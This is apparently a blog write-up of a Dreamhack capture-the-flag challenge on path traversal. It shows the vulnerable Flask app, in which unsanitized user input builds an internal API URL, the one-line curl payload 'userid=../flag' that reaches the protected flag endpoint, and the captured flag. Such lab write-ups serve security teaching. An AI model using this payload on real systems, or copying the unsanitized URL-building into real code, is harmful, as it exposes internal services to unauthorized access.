 ```yaml
---
title: pathtraversal
author: thanguyen165
date: 2023-01-01 07:00:00 +0700
categories: [Practice, dreamhack]
tags: [Web Exploitation, Path traversal]
---
```


* Level: 1
* Link: [https://dreamhack.io/wargame/challenges/12/](https://dreamhack.io/wargame/challenges/12/)

## Description

> An API server that retrieves user information.
>
> Use the Path Traversal vulnerability to obtain the flag in ```/api/flag```

### Attached

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, abort
from functools import wraps
import requests
import os, json

users = {
    '0': {
        'userid': 'guest',
        'level': 1,
        'password': 'guest'
    },
    '1': {
        'userid': 'admin',
        'level': 9999,
        'password': 'admin'
    }
}

def internal_api(func):
    @wraps(func)
    def decorated_view(*args, **kwargs):
        if request.remote_addr == '127.0.0.1':
            return func(*args, **kwargs)
        else:
            abort(401)
    return decorated_view

app = Flask(__name__)
app.secret_key = os.urandom(32)
API_HOST = 'http://127.0.0.1:8000'

try:
    FLAG = open('./flag.txt', 'r').read() # Flag is here!!
except:
    FLAG = '[**FLAG**]'

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/get_info', methods=['GET', 'POST'])
def get_info():
    if request.method == 'GET':
        return render_template('get_info.html')
    elif request.method == 'POST':
        userid = request.form.get('userid', '')
        info = requests.get(f'{API_HOST}/api/user/{userid}').text
        return render_template('get_info.html', info=info)

@app.route('/api')
@internal_api
def api():
    return '/user/<uid>, /flag'

@app.route('/api/user/<uid>')
@internal_api
def get_flag(uid):
    try:
        info = users[uid]
    except:
        info = {}
    return json.dumps(info)

@app.route('/api/flag')
@internal_api
def flag():
    return FLAG

application = app # app.run(host='0.0.0.0', port=8000)
# Dockerfile
#     ENTRYPOINT ["uwsgi", "--socket", "0.0.0.0:8000", "--protocol=http", "--threads", "4", "--wsgi-file", "app.py"]
```

## Analyzation

Check these lines

```python
@app.route('/get_info', methods=['GET', 'POST'])
def get_info():
    if request.method == 'GET':
        return render_template('get_info.html')
    elif request.method == 'POST':
        userid = request.form.get('userid', '')
        info = requests.get(f'{API_HOST}/api/user/{userid}').text
        return render_template('get_info.html', info=info)
```

So if ```userid=../flag```, then the flag will be found.

## Solution

```sh
curl -X POST http://host3.dreamhack.games:8650/get_info -d "userid=../flag"
```

The flag is
```
DH{8a33bb6fe0a37522bdc8adb65116b2d4}
```